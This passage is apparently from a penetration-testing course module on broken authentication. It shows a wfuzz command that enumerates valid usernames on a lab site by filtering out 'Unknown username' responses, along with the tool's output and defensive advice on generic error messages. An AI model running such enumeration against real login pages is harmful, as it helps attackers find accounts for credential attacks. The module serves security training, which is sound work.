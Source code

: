 We notice that the application replies with an `Unknown username` message, and we guess that it uses a different message when the username is valid.

We can carry out the brute force attack using `wfuzz` and a reverse string match against the response text (`--hs` "Unknown username," where "`hs`" should be a mnemonic used for string hiding), using a short wordlist from SecLists. Since we are not trying to find a valid password, we do not care about the `Password` field, so we will use a dummy one:
**WFuzz - Unknown Username**
```
user@htb[/htb]$ wfuzz -c -z file,/opt/useful/SecLists/Usernames/top-usernames-shortlist.txt -d "Username=FUZZ&Password=dummypass" --hs "Unknown username" http://brokenauthentication.hackthebox.eu/user_unknown.php

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://brokenauthentication.hackthebox.eu/user_unknown.php
Total requests: 17

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000002:   200        56 L     143 W    1984 Ch     "admin"

Total time: 0.017432
Processed Requests: 17
Filtered Requests: 16
Requests/sec.: 975.1927
```
While `wfuzz` automatically hides any response containing an "Unknown username" message, we notice that "admin" is a valid user (the remaining usernames on the top-username-shortlist.txt wordlist are not valid). If an excellent UX is not a hard requirement, an application should reply with a generic message like "Invalid credentials" for unknown usernames and wrong passwords.

### Username Existence Inference

Sometimes a web application may not explicitly state that it does not know a specific username but allows an attacker to infer this piece of information. Some web applications prefill the username input value if the username is valid and known but leave the input value empty or with a default value when the username is unknown. This is quite common on mobile versions of websites and was also the case on the vulnerable WordPress login page we saw earlier. While developing, always try to give the same experience for both failed and granted login: even a slight difference is more than enough to infer a piece of information.

Testing a web application by logging in as an unknown user, we notice a generic error message and an empty login page:
```
https://brokenauthentication.hackthebox.eu/inference.php
```
![04-inference_unknown](https://academy.hackthebox.com/storage/modules/80/06-bruteforce_username/04-inference_unknown.png)
